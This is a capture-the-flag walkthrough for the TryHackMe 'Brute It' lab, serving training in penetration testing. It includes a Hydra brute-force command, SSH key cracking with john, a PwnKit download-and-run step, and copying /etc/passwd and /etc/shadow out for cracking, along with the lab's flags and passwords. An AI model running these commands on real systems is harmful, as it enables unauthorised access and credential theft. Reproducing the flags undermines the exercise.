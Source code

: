 # [Brute It - TryHackMe](https://tryhackme.com/room/bruteit)

Learn how to brute, hash cracking and escalate privileges in this box!

## Credits

- Room type: Free
- Created by: [ReddyyZ](https://tryhackme.com/p/ReddyyZ)

## Recon

- Perform a fairly aggressive scan on the target using `nmap -p- -sV -sC -T5 <target ip>`
    - *-p-* scans all ports, even those outside standard range
    - *-sC* enables default script scans
    - *-sV* enables service version detection
    - *-T5* sets the timing template to the fastest - useful when detection is not an issue

### How many ports are open?

> The nmap scan shows that **2** ports are open

### What version of SSH is running?

> The version reported for SSH from the nmap scan is **OpenSSH 7.6p1**

### What version of Apache is running?

> The version reported for the Apache server from the nmap scan is Apache httpd **2.4.29**

### Which Linux distribution is running?

> nmap script scan results show **Ubuntu** in the http-title

### Search for hidden directories on web server. What is the hidden directory?

- Use `ffuf -u http://<target ip>/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ` to fuzz for hidden directories
    - Most other directory wordlists should work
    - Can also be done with other fuzzing/directory brute forcing tools like *Gobuster* and *Feroxbuster*

> The most interesting hidden directory returned is **/admin**

## Getting a shell

### What is the user:password of the admin panel?

- Brute force admin panel using *Hydra*
    - Using `curl http://<target ip>/admin/` shows the page in raw HTML
        - There is a comment near the bottom that says `<!-- Hey john, if you do not remember, the username is admin -->`
    - Before using Hydra, use *Burpsuite*, *Zaproxy*, built in console network tab in browser, or other preferred proxy application to examine the structure of login request payload
        - When testing a random login on the portal, the payload is passed in this format: `user=admin&pass=admin`
    - `hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar "http-post-form://<target ip>/admin/:user=^USER^&pass=^PASS^:invalid"`
        - *-l* instead of *-L* indicates use of plain text rather than a wordlist for username
        - *-P* instead of *-p* indicates use of wordlist rather than plaintext for password
            - More than one password wordlist may work in place of rockyou
        - `http-post-form` indicates the protocol to brute force over
        - `/admin/` is the directory where the login form is located and **:** separates the options
        - Referring back to the request payload, `user=^USER^` replaces `^USER^` with the *-l* argument and `pass=^PASS^` replaces `^PASS^` with the *-P* argument
        - Finally, separated by one last **:**, set "invalid" as the response that indicates a failure
            - This keyword will be different in each situation/web interface

> The user:password returned from Hydra is **admin:xavier**

### Crack the RSA key you found. What is John's RSA Private Key passphrase?

- Logging into the admin portal using the credentials from Hydra displays an RSA private key
- Download using `curl -O http://<target ip>/admin/panel/id_rsa`
- Convert private key to crackable hash using `ssh2john id_rsa > hash`
- `john hash --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar`

> The cracked RSA private key passphrase is **rockinroll**

### user.txt

- SSH into the machine as John
    - `chmod 600 id_rsa` to set necessary permissions on private key file
    - `ssh -i id_rsa john@<target ip>` and enter the cracked passphrase when prompted
- `cat user.txt` to show user flag

> <details><summary>The user flag is </summary>THM{a_password_is_not_a_barrier}</details>

### Web flag

> <details><summary>The page that provided John's RSA key also had the flag (/admin/panel): </summary>THM{brut3_f0rce_is_e4sy}</details>

## Privilege Escalation

### Find a form to escalate your privileges. What is the root's password?

- Download [linpeas](https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh) to target machine
    - First download to attack machine
    - Place script in temp directory
    - Serve temp directory to a temporary http server using `python3 -m http.server 8082` on attack machine
    - `curl -O http://<attack machine ip>:8082/linpeas.sh` to get linpeas on target machine
- `chmod +x linpeas.sh` to make executable on target machine then run with `./linpeas.sh`
- The first linux exploit suggester entry is **CVE-2021-4034** - *PwnKit*
    - [PwnKit](https://github.com/ly4k/PwnKit) is designed for privilege escalation and is compatible with the Linux version on the target machine
- Repeat process of first downloading PwnKit to attack machine, then transfer over using *Curl*
- `chmod +x PwnKit` then `./PwnKit` to gain root
- As root, `cd /etc` and start a temporary server with `python3 -m http.server 4086` then download /etc/passwd and /etc/shadow to attack machine
- On attack machine, `unshadow passwd shadow > hashes` to get password hashes
- `john hashes --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar` to get the plaintext password

> The root password of the target is **football**

### root.txt

> <details><summary>The root flag is </summary>THM{pr1v1l3g3_3sc4l4t10n}</details>